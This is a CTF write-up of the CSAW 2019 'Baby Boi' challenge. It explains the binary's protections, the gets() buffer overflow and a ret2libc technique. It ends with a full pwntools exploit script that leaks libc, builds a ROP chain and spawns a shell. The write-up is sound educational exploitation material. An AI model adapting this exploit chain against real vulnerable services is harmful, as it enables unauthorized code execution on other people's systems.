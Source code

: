 ```yaml
---
layout: default
title: CSAW CTF Qualification 2019 - Baby Boi
---
```


<h1 align="center">[CSAW CTF Qualification 2019 - Baby Boi]</h1>
## Challenge Description
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/csaw2019_baby_boi/challdesc.png"></p><br>
We are given 3 files which can be found <a href="https://github.com/ArkAngels/CTF-Source-Codes/tree/master/CSAW%20Qual%202019/pwn/CSAW%20Qual%202019%20-%20baby%20boi">here</a><br>
For some reason there is a challenge that gives us the C source code in international CTF. But that's okay and that helps the writer a lot since the writer just started to learn Binary Exploitation recently.<br>
But for now, let's try to check the file.<br>
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/csaw2019_baby_boi/checksec.png"></p><br>
It looks that the binary's configurations are as the following:<br>
* The binary is 64-bit and not stripped.
* Partial RELRO: RELRO is Relocation Read-Only. This configuration means that the *Global Offset Table* (GOT) and *Procedure Linkage Table* (PLT) is not in *read-only* mode.
* No Canary found: Canary in stack is used to detect stack smashing. When you do a stack smashing, the canary address will change because of that, and if the program detects a difference in the canary, the program will be terminated. In this case because there is no canary means we don't have to leak the canary address in order to do stack smashing.
* NX Enabled: NX itself stands for *Non-Executable*. This configuration means that every segment in the memory is not writable **AND** executable. If this configuration is enabled, we can't execute a code that comes from outsite (like if we write a shellcode).
* No PIE: PIE stands for Position Independent Executable. This configuration tells us that those addresses will change everytime we execute the ELF. But since the PIE is disabled, almost all addresses are static.

Let's try to run the program first.<br>
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/csaw2019_baby_boi/test_run.png"></p><br>
It seems the program prints an address before we input something, but what address is it?<br>
The disassembler gives us the main function like this:<br>
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [sp+10h] [bp-20h]@1 // Array size -> 32 (0x20)

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("Hello!");
  printf("Here I am: %p\n", &printf, argv);
  gets(&v4);
  return 0;
}
```
The program is quite straightforward actually. It will print the address of **printf** and it will ask us for input and then the program exits. And there is one thing that we need to highlight, the use of **gets** here is dangerous because the syntax has a vulnerability which is *buffer overflow*.<br>
So, if the program only does that, how are we gonna get the flag? Remember, we are given 3 files:<br>
* Binary
* C Source code
* Libc library

Using this libc library, we can spawn shell (/bin/sh) using the method *ret2libc*. Because this is 64-bit, there are few things we need to do this method:
* libc base address
* system offset in libc
* /bin/sh offset in libc
* pop rdi gadget
* ret gadget

Now I will explain why we need these:
* libc base address: Libc base address is needed so we can calculate the offset of system function and also /bin/sh string in the libc.
* system offset in libc: So we can call **system** function from libc
* /bin/sh offset in libc: So we can give the **system** function an argument
* pop rdi gadget: To point the argument of **system** function to /bin/sh
* ret gadget: Exit gadget

Now, how to find all of these? Here's what you can do:
* libc base address: Remember that we have a free address from the program which is *printf*, this address belongs to the binary. So in order to calculate the base address, we need the offset of *printf* in the libc and substract the binary's *printf* address with the offset from libc.
* system offset: After we get the libc base, we can calculate the system offset by adding the offset with the libc base.
* /bin/sh offset: Calculate the /bin/sh string offset by adding the libc base with the offset.
* pop rdi gadget and ret gadget: Use ROPgadget

After we get all the requirements, now we can develop our exploit code.

```python
from pwn import *

# Get the gadget addresses from ROPgadget
pop_rdi = 0x400793
ret = 0x40054e

'''ret2libc attack pattern:
- buffer
- overwrite rbp
- pop rdi; ret
- address of /bin/sh
- ret gadget
- address of system
in 64-bit program, the call of a function is as following:
- a place for function's argument
- argument
- exit
- the function address
'''

def exploit():
	r.recvline()
	# Get printf address in binary
	printf_memory_addr = int(r.recvuntil("\n").split(' ')[3], 16)
	log.info('printf addr in memory: {}'.format(hex(printf_memory_addr)))
	log.info('printf addr in libc: {}'.format(hex(libc.symbols['printf'])))
	# Calculate libc base address
	libc_base = printf_memory_addr - libc.symbols['printf']
	log.info('libc base: {}'.format(hex(libc_base)))
	# Calculate system offset
	system_addr = libc_base + libc.symbols['system']
	log.info('system addr: {}'.format(hex(system_addr)))
	log.info('pop rdi; ret; addr: {}'.format(hex(pop_rdi)))
	# Calculate /bin/sh offset
	bin_sh = libc_base + libc.search('/bin/sh').next()
	log.info('/bin/sh addr: {}'.format(hex(bin_sh)))
	# Fill the buffer
	payload = "a" * 32
	# More padding
	payload += "b" * 8
	# Prepare the place for system's argument
	payload += p64(pop_rdi)
	# System's argument
	payload += p64(bin_sh)
	# Return gadget
	payload += p64(ret)
	# Call the system
	payload += p64(system_addr)
	# Send the payload
	r.sendline(payload)
	# Prompt interactive mode since we have the shell now
	r.interactive()

elf = ELF("./baby_boi", checksec = False)
libc = ELF('./libc-2.27.so', checksec = False)
r = process(elf.path)
#r = remote("pwn.chal.csaw.io", 1005)

exploit()
```
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/csaw2019_baby_boi/flag.png"></p>